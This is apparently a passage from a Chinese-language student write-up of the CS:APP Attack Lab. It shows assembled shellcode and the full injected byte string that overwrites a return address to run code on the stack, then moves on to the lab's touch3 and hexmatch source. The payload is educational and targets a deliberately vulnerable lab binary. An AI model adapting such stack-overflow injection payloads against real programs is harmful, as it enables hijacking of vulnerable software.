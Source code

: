将汇编给编译后反汇编，得出对应的字节码

```
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

这一部分的attack，没有开启栈地址随机化，因此我们可以通过GDB打断点，得出`%rsp`的地址为`0x5561dc78`

所以最后构造出来的字节码如下，注意，汇编指令的字节码，不需要按大小端序进行排布。

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* to injected code */
```

### Phase 3

这个attack是要我们跳转到`touch3()`中

```c
 /* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
  char cbuf[110];
  /* Make position of check string unpredictable */
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */
  if (hexmatch(cookie, sval)) {
    printf("Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  } else {
    printf("Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```

Writeup里头写了这些

> When functions hexmatch and strncmp are called, they push data onto the stack, **overwriting portions of memory that held the buffer used by getbuf**. As a result, you will need to be careful where you place the string representation of your cookie.

